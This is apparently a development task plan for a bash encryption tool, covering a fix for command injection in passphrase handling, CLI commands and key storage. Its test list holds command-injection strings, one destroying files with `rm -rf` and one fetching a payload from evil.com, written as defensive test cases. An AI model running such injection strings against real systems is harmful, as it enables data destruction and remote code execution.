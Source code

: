 **Success Criteria**:
- ✅ Replace vulnerable shell interpolation with Named Pipe Strategy
- ✅ Implement `_age_interactive_encrypt()` with secure named pipe approach
- ✅ Implement `_age_interactive_decrypt()` with secure named pipe approach
- ✅ Zero command injection risk (no shell interpolation of user data)
- ✅ Maintain TTY subversion philosophy and performance (<0.010s overhead)
- ✅ Pass all attack vector tests from @RRR's security matrix
- ✅ BashFX v3.0 compliance maintained

**Implementation Approach**: Named Pipe Strategy (per @RRR research)
- Use `mkfifo` for secure passphrase transmission
- Integrate with existing temp file cleanup system
- Preserve age TTY interaction behavior
- Zero external dependencies

**Attack Vector Tests Required**:
1. Passphrase with shell metacharacters: `'; rm -rf /tmp; echo 'pwned`
2. Command substitution attacks: `$(curl evil.com/payload)`
3. Variable expansion attacks: `$(/bin/echo injection)`
4. Quote escape attacks: `a'b"c$d;e|f&g`

**Dependencies**: Integrates @RRR research from `research/RX_SECURITY_ALTERNATIVES.md`

### TASK-002: Enhanced do_ignite() Implementation (1 point)
**File**: `parts/06_api.sh`  
**Success Criteria**:
- `create [name] [--phrase="..."]` command working
- `new --name=NAME [--phrase="..."]` command working
- `unlock [name]` command working with TTY magic
- `list` and `status` commands working
- BashFX v3 compliant argument parsing
- Help system integration

**Dependencies**: TASK-001

### TASK-003: Key Storage Architecture (1 point)
**Files**: Helper functions in `parts/04_helpers.sh`  
**Success Criteria**:
- `.padlock/ignition/` directory structure created
- `_create_ignition_master_with_tty_magic()` function working
- `_create_ignition_distro_with_tty_magic()` function working  
- `_unlock_ignition_with_tty_magic()` function working
- Metadata storage and retrieval working

**Dependencies**: TASK-001, TASK-002

### TASK-004: Security Framework Implementation (1 point)
**Files**: Security functions in `parts/04_helpers.sh`  
**Success Criteria**:
- Authority validation chain implemented
- Master key compromise detection working
- Passphrase strength validation working
- Metadata corruption recovery working
- Environment variable security measures implemented
